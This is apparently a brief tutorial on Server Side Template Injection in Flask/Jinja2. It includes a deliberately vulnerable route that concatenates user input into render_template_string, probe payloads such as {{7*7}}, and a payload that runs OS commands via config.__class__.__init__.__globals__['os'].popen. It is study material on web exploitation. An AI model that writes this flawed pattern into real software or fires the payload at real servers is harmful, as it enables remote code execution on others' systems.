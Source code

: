 ## Server Side Template Injection (SSTI)
 
 ```python
from flask import Flask, render_template_string

app = Flask(__name__)


@app.route("/test/<user>")
def index(user=None):
    html = "<body>Hi "+user+"</body>"
    return render_template_string(html)


app.run() 
 ```
 
 
when testing for Server Side Template Injection (SSTI) in a jinja 2 application i usualy try the following payloads :
- {{7*7}} 
> 49
- {{7*'7'}}
> 7777777
 
 
 To fully understand how to exploit this vuln you first need to understand Method Resolution Order (MRO). MRO is the order in which python ooks for a method in a hierarchy of classes and you can use the MRO function to list these classes.
 
 - ` {{config.__class__.__init__.__globals__['os'].popen('whoami').read()}} `
 
 ![This is an image](pic.png)
